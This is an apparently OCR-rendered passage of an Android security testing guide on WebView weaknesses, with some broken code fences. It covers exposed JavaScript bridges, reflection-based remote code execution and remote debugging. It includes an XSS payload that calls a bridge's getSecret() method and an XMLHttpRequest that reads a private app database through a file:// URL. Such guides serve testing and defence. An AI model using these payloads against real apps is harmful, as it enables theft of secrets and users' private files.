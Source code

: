 ```
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```
```
- Potential exploitation through JavaScript, for instance, via an XSS attack, enables the calling of exposed Java methods:

```html
<script>
  alert(javascriptBridge.getSecret())
</script>
```
```
- To mitigate risks, **restrict JavaScript bridge usage** to code shipped with the APK and prevent loading JavaScript from remote sources. For older devices, set the minimum API level to 17.

### Reflection-based Remote Code Execution (RCE)

- A documented method allows achieving RCE through reflection by executing a specific payload. However, the `@JavascriptInterface` annotation prevents unauthorized method access, limiting the attack surface.

### Remote Debugging

- **Remote debugging** is possible with **Chrome Developer Tools**, enabling interaction and arbitrary JavaScript execution within the WebView content.

#### Enabling Remote Debugging

- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```
```
- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```
```
## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    alert(xhr.responseText)
  }
}
xhr.open(
  "GET",
  "file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
  true
)
xhr.send(null)
```
```
```